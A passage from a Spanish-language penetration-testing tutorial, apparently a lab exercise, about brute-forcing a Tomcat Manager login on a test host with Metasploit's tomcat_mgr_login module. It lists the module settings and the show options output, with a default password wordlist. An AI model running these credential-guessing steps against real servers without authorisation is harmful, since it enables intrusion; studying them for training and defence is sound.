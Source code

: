 Hemos identificado que efectivamente hay un host Tomcat expuesto externamente por nuestro cliente. Dado que el alcance de la evaluación es relativamente pequeño y todos los demás objetivos no son particularmente interesantes, centremos toda nuestra atención en intentar obtener acceso interno a través de Tomcat.

Como se discutió en la sección anterior, si podemos acceder a los endpoints `/manager` o `/host-manager`, probablemente podremos lograr la ejecución remota de código en el servidor Tomcat. Comencemos por hacer fuerza bruta en la página del administrador de Tomcat en la instancia de Tomcat en `http://web01.inlanefreight.local:8180`. Podemos usar el módulo de Metasploit [auxiliary/scanner/http/tomcat_mgr_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) para estos fines, Burp Suite Intruder o cualquier número de scripts para lograr esto. Utilizaremos Metasploit para nuestros propósitos.

---

## Tomcat Manager - Fuerza Bruta de Login

Primero tenemos que configurar algunas opciones. Nuevamente, debemos especificar el vhost y la dirección IP del objetivo para interactuar correctamente con el objetivo. También debemos establecer `STOP_ON_SUCCESS` en `true` para que el escáner se detenga cuando obtengamos un inicio de sesión exitoso, no tiene sentido generar un montón de solicitudes adicionales después de un inicio de sesión exitoso.

```r
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

Como siempre, verificamos que todo esté configurado correctamente con `show options`.

```r
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.129.201.58                                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8180                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true                                                                            yes       Stop guessing when a credential works for a host
```
